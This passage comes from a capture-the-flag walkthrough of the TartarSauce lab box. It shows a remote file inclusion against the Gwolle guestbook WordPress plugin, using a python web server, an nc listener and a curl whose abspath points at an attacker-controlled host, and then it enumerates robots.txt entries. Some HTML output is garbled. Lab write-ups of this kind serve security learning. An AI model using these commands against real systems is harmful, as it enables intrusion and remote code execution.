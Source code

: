 So to make it work, just start `python3 -m http.server 80`, `nc` on
8082, and run
`curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/a`.

### Rabbit Hole: Monstra CMS

Another super trollish move by the author is adding a `robot.txt` file
with multiple interesting sites, one of which exists, and is has RCE
vulnerabilities against it, and yet, none of them can work. Here's how I
explored it anyway, and why the exploits don't work.

#### robots.txt

`nmap` calls out the presence of a `robots.txt` file with several
interesting looking sites:



    User-agent: *
    Disallow: /webservices/tar/tar/source/
    Disallow: /webservices/monstra-3.0.4/
    Disallow: /webservices/easy-file-uploader/
    Disallow: /webservices/developmental/
    Disallow: /webservices/phpmyadmin/



I'll use a quick bash loop to grab the disallow entries, get the url
paths, and loop over them, for each echoing a header line, and then
issuing a curl to get them. Of the five urls, only one doesn't return a
404 not found error:



    root@kali# curl -s 10.10.10.88/robots.txt | tail -6 | head -5 | cut -d' ' -f2 | while read p; do echo ===${p}===; curl -s 10.10.10.88${p} | head; echo; done
    ===/webservices/tar/tar/source/===
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    .md><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL /webservices/tar/tar/source/ was not found on this server.</p>
    <hr>
    <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.88 Port 80</address>
    </body><.md>

    ===/webservices/monstra-3.0.4/===
    <!DOCTYPE.md>
    .md>
    <head>
    <meta charset="utf-8">
    <meta http-equiv="x-dns-prefetch-control" content="on">
    <link rel="dns-prefetch" href="/webservices/monstra-3.0.4" />
    <link rel="dns-prefetch" href="//www.google-analytics.com" />
    <title>TartarSauce - Home</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Site description">
